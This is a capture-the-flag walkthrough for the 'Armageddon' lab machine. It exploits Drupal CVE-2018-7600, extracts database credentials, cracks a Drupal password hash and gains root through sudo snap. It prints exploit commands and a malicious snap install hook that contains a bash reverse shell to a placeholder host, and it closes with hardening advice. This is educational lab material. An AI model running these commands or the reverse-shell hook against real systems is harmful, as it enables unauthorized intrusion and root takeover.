# Armageddon

___

**Key Findings:**
- Drupal CMS version 7.56 vulnerability (CVE-2018-7600 "Drupalgeddon2")
- MySQL database credentials exposed in configuration files
- User credentials stored with weak password hashing
- Drupal hash type \$S\$ cracked using dictionary attack
- Sudo privilege escalation via `/usr/bin/snap` binary
- Snap package installation with malicious hooks

---

## Key Learning Objectives

✅ Network Port Scanning & Service Enumeration  
✅ Web Application Fingerprinting & Version Discovery  
✅ Drupal CMS Vulnerability Assessment  
✅ CVE-2018-7600 Exploitation (Drupalgeddon2)  
✅ Database Credential Extraction from Configuration Files  
✅ MySQL Database Analysis & User Data Extraction  
✅ Drupal Password Hash Identification & Cracking  
✅ SSH Authentication with Compromised Credentials  
✅ Sudo Privilege Analysis & Enumeration  
✅ Snap Package Privilege Escalation Techniques

---

## 1. Reconnaissance & Enumeration

Initial reconnaissance was conducted using Nmap to identify open ports and running services.

```bash
sudo nmap -p- --open -n -Pn -vvv -oG ports 10.10.10.233
sudo nmap -p 22,80 -sCV -oN services 10.10.10.233
```

**Results:**
- Port 22/tcp: SSH service
- Port 80/tcp: Apache HTTP server running Drupal CMS

The scan revealed exposed configuration files including `CHANGELOG.txt` which disclosed version information.

<figure style="text-align: center;">
    
</figure>

## 2. Web Application Assessment

The web application presented a standard login panel with development status messaging, indicating the site was still under construction.

<figure style="text-align: center;">
    
</figure>

### Version Discovery

Analysis of the `CHANGELOG.txt` file revealed the system was running Drupal version 7.56, a version known to contain critical security vulnerabilities.

<figure style="text-align: center;">
    
</figure>

## 3. Vulnerability Identification & Exploitation

The identified Drupal version 7.56 was vulnerable to CVE-2018-7600, commonly known as "Drupalgeddon2". This critical remote code execution vulnerability was discovered and patched by the Drupal security team in April 2018. The vulnerability affects multiple versions of Drupal CMS, allowing remote attackers to execute arbitrary code on the server without authentication by manipulating form parameters.

**Exploitation was performed using:**
- Exploit source: https://github.com/pimps/CVE-2018-7600

A reverse shell was successfully established through the vulnerability.

<figure style="text-align: center;">
    
</figure>

## 4. Configuration File Analysis

Database credentials were discovered in the Drupal configuration file `/var/www/html/sites/default/settings.php`, a common location for Drupal database configuration.

<figure style="text-align: center;">
    
</figure>

## 5. Database Analysis & Credential Extraction

Due to TTY instability, the previously obtained exploit was leveraged to execute MySQL commands remotely:

```bash
python3 drupa7-CVE-2018-7600.py http://armageddon.htb -c "mysql -u drupaluser -pCQHEy@9M*m23gBVj -h localhost drupal -e 'SHOW DATABASES;'"
python3 drupa7-CVE-2018-7600.py http://armageddon.htb -c "mysql -u drupaluser -pCQHEy@9M*m23gBVj -h localhost drupal -e 'USE drupal; SHOW tables'"
python3 drupa7-CVE-2018-7600.py http://armageddon.htb -c "mysql -u drupaluser -pCQHEy@9M*m23gBVj -h localhost drupal -e 'USE drupal; SELECT * FROM users;'"
```

The database enumeration revealed user `brucetherealadmin` with the hashed password `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`.

<figure style="text-align: center;">
    
</figure>

## 6. Password Hash Cracking

The hash type was identified using Hashcat's example hash database:

```bash
hashcat --example-hashes | grep '\$S\$' -A 20 -B 20
```

<figure style="text-align: center;">
    
</figure>

The Drupal hash (mode 7900) was successfully cracked using a dictionary attack:

```bash
hashcat -m 7900 hash $(locate rockyou.txt) --force
```

**Cracked password:** `booboo`

## 7. User Pivoting

SSH access was established using the compromised credentials:

```bash
ssh brucetherealadmin@10.10.10.233
```

The user flag was successfully retrieved, and privilege escalation enumeration began.

<figure style="text-align: center;">
    
</figure>

## 8. Privilege Escalation

Sudo privileges analysis revealed that the user could execute `/usr/bin/snap` with root privileges. This presented a privilege escalation opportunity through malicious snap package installation.

### Snap Package Privilege Escalation

The following commands were executed on the local attack machine to create a malicious snap package:

```bash
# Install fpm package manager
sudo gem install fpm

# Create malicious snap package
COMMAND="bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" > meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

The malicious snap package was created successfully:

<figure style="text-align: center;">
    
</figure>

The package was transferred to the target system:

<figure style="text-align: center;">
    
</figure>

### Root Access Achievement

The malicious snap package was installed with dangerous and development mode flags:

```bash
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

Root privileges were successfully obtained:

<figure style="text-align: center;">
    
</figure>

The root flag was retrieved:

```bash
cat /root/root.txt
```

---

## Recommendations

### Immediate Actions

1. **Update Drupal Installation**
   - Upgrade Drupal to the latest stable version
   - Apply security patches for CVE-2018-7600
   - Implement proper update management procedures

2. **Database Security**
   - Change default database credentials
   - Restrict database access to necessary services only
   - Remove exposed credentials from configuration files

3. **Password Security**
   - Enforce strong password policies
   - Implement multi-factor authentication where possible
   - Regular password rotation for administrative accounts

4. **System Hardening**
   - Remove unnecessary sudo privileges
   - Restrict snap package installation permissions
   - Regular review of user privileges and access controls

### Long-term Security Improvements

1. **Access Controls**
   - Implement principle of least privilege
   - Regular audit of user permissions and sudo access
   - Network segmentation and access restrictions

2. **Monitoring**
   - Deploy comprehensive logging solutions
   - Implement real-time alerting for suspicious activities
   - Monitor for unauthorized snap package installations

3. **Regular Security Assessments**
   - Conduct periodic vulnerability assessments
   - Implement automated security scanning
   - Regular penetration testing of web applications

4. **Configuration Management**
   - Secure storage of sensitive configuration data
   - Implement configuration file access controls
   - Regular backup and recovery testing